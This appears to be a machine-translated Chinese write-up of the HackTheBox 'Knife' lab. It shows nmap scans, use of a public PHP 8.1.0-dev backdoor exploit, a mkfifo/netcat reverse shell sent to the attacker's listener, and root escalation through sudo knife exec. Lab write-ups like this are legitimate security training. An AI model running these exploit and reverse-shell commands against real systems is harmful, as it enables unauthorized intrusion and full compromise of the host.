

# 黑客盒子报道:刀

> 原文：<https://infosecwriteups.com/hackthebox-writeup-knife-2a3dd526d11d?source=collection_archive---------0----------------------->



这是一个由易到难的 Linux 盒子，要求攻击者仔细列举一个网站以获得立足点，并利用二进制文件将权限提升到 root。

# 列举

我开始通过用 **NMAP** 执行快速扫描来枚举目标机器，以识别任何打开的端口:

```
nmap -T5 --open -sS -vvv --min-rate=300 --max-retries=3 -p- -oN all-ports-nmap-report 10.10.10.242PORT   STATE SERVICE REASON
22/tcp open  ssh     syn-ack ttl 63
80/tcp open  http    syn-ack ttl 63
```

扫描发现三个端口打开(即端口 22 和 80)。接下来，我使用 NMAP 来识别每个端口上运行的服务，并使用通用 NSE 脚本来查找我可以利用的任何常见漏洞:

```
nmap -sV -sC -Pn -v -p 22,80 -oN nmap-report 10.10.10.242PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.2 (Ubuntu Linux; protocol 2.0)
80/tcp open  http    Apache httpd 2.4.41 ((Ubuntu))
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-server-header: Apache/2.4.41 (Ubuntu)
|_http-title:  Emergent Medical Idea
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

我可以看到一个网站被托管在端口 80 上，所以我决定移动并检查该网站。

# HTTP —端口 80 分析

导航到托管在端口 80 上的网站，我看到了以下网页。


托管在端口 80 上的网站

我花了一些时间来列举网站和模糊任何隐藏的目录或文件，但我没有看到任何感兴趣的东西。我继续使用 BurpSuite 来拦截网络请求，并在服务器的响应中看到了一个有趣的标题:

```
HTTP/1.1 200 OK
Date: Wed, 09 Jun 2021 19:01:03 GMT
Server: Apache/2.4.41 (Ubuntu)
X-Powered-By: PHP/8.1.0-dev     # Interesting!
Vary: Accept-Encoding
Content-Length: 5815
Connection: close
Content-Type: text/html; charset=UTF-8
```

我可以看到应用程序通过非标准的 **X-Powered-By** 头公开信息。标题称该网站由 **PHP/8.1.0-dev** 提供支持。

> **X-Powered-By** 是一个常见的非标准 HTTP 响应头(大多数以‘X-’为前缀的头是非标准的)。默认情况下，它通常包含在通过特定脚本技术构建的响应中。值得注意的是，它可以被服务器禁用和/或操纵。一些服务器选择不包含它，甚至提供误导性信息来摆脱可能针对特定技术/版本的黑客。

在谷歌上快速搜索 **PHP/8.1.0-dev** 后，我发现了一个后门远程命令注入 python 漏洞脚本:

 [## PHP 8 . 1 . 0-开发后门远程命令注入

### PHP 8 . 1 . 0-开发后门远程命令注入作者理查德·琼斯 PHP 版本 8 . 1 . 0-开发后门…

packetstormsecurity.com](https://packetstormsecurity.com/files/162749/php_8.1.0-dev.py.txt) 

我下载了漏洞并如下运行，这很有效！

```
$ python3 backdoor.py -u [http://10.10.10.242/](http://10.10.10.242/) -c ls
[+] Results:
bin
boot
cdrom
dev
etc
...etc...
```

接下来，我使用漏洞脚本在目标机器上创建一个反向 shell:

```
# kali machine listener
nc -lvnp 4444python3 backdoor.py -u [http://10.10.10.242/](http://10.10.10.242/) -c "rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc <IP> 4444 >/tmp/f"# stabilize shell
python3 -c 'import pty; pty.spawn("/bin/bash")'james@knife:/$
```

我可以看到我以用户 James 的身份登录，并且能够检索用户标志:

```
james@knife:~$ cat user.txt8cd2efcec990......
```

# 权限提升

我可以看到在 James home 目录中有一个有趣的文件叫做 **shell.rb** ，它包含以下代码:

```
system(‘/bin/bash’)
```

我开始寻找将我的权限提升到 root 的方法，并发现用户 James 可以使用 sudo 作为 root 运行一个名为 **knife** 的二进制文件:

```
$ sudo -lUser james may run the following commands on knife:
    (root) NOPASSWD: /usr/bin/knife
```

我决定检查**刀**的命令选项，我可以看到有一个使用二进制文件执行文件的选项:

```
$ sudo knife help** EXEC COMMANDS **
knife exec [SCRIPT] (options)
```

我用 sudo 作为 root 运行这个命令，并使用 shell.rb 文件获得一个具有 root 权限的新 shell。然后，我检索了根标志:

```
james@knife:~$ sudo knife exec shell.rbroot@knife:/home/james# cat /root/root.txtb77e375181e32f.........
```

# 最后的想法

我很高兴使用这台机器，并发现它是初学者学习重要概念的好方法，例如检查网络请求/响应头和使用自定义漏洞。谢谢你一直读到最后，祝你黑客快乐😄！